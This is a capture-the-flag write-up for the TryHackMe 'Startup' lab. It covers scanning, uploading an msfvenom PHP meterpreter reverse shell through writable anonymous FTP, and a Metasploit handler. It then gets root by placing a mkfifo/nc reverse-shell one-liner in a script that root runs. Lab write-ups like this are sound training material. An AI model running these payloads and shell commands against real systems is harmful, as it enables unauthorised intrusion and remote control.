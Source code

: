 ```yaml
---
title : Startup - Writeup
---
```


_**Nov 09, 2020**_

[Startup](https://tryhackme.com/room/startup) Writeup

## Nmap Scan :

```
bvr0n@kali:~$ nmap -sC -sV 10.10.252.135
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 09 02:12 ftp [NSE: writeable]
|_-rw-r--r--    1 0        0             208 Nov 09 02:12 notice.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.8.14.157
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 42:67:c9:25:f8:04:62:85:4c:00:c0:95:95:62:97:cf (RSA)
|   256 dd:97:11:35:74:2c:dd:e3:c1:75:26:b1:df:eb:a4:82 (ECDSA)
|_  256 27:72:6c:e1:2a:a5:5b:d2:6a:69:ca:f9:b9:82:2c:b9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Maintenance
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enum :

```
bvr0n@kali:~$ gobuster dir -u http://10.10.252.135/ -w Documents/Dirbuster/wordlist.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.252.135/
[+] Threads:        10
[+] Wordlist:       Documents/Dirbuster/wordlist.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/11/08 06:58:30 Starting gobuster
===============================================================
/***** (Status: 301)
```
The `/*****` is holding the shared files via `FTP`, we gonna need it later to execute our shell.

## FTP :

```                                                        
bvr0n@kali:~$ ncftp 10.10.252.135
Connecting to 10.10.252.135...                                                                                                         
ncftp / > ls
ftp/         notice.txt
ncftp / > ls -la
drwxrwxrwx    2 65534    65534        4096 Nov 09 17:24 ftp
```

I noticed that we can write in `/ftp`, so let's upload a reverse shell there, and execute it in the web browser :

Create a payload :

```
bvr0n@kali:~$ msfvenom -p php/meterpreter_reverse_tcp LHOST=tun0 LPORT=4444 -f raw > startup.php
```

Upload it into `/ftp/`:

```
ncftp /ftp > put startup.php
startup.php:                                            37.42 kB  124.55 kB/s  
Could not preserve times for startup.aspx: UTIME failed.
ncftp /ftp >
```
Set a Metasploit handler and exploit :

```
msf5 exploit(multi/handler) > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload php/meterpreter_reverse_tcp
msf5 exploit(multi/handler) > set LHOST tun0
msf5 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 10.*.**.***:4444 
[*] Meterpreter session 2 opened (10.*.**.***:4444 -> 10.10.223.78:34244) at 2020-11-09 12:29:21 -0500
```

## Internal Enum :

So i stumbbles across a `Traffic Capture` file, after analysing it, i noticed a password for `Lennie`:
```
[sudo] password for www-data: 
@       ******************
6%      @
Sorry, try again.
```
for the root part, there is a script inside `/lennie` that going to allow us to pivot :

```
root@startup:~# cat /home/lennie/scripts/planner.sh
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```

So basically what this script does,`root` is running what ever on `/etc/print.sh`, lucky for us is it writeable by us :D :

```
root@startup:~# ls -la /etc/print.sh 
-rwx------ 1 lennie lennie 91 Nov  9 18:48 /etc/print.sh
```
So i filled it with a basic reverse shell :

```
root@startup:~# cat /etc/print.sh
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [IP] [PORT] >/tmp/f
```
Now we are set to go, set up a `nc` listener and execute `planner.sh`, and you should get a shell ;)

```
root@startup:~# id && hostname
uid=0(root) gid=0(root) groups=0(root)
startup
```

<br>
best regards

[bvr0n](https://github.com/bvr0n)


<br>
[back to main()](https://bvr0n.github.io/)

<br>
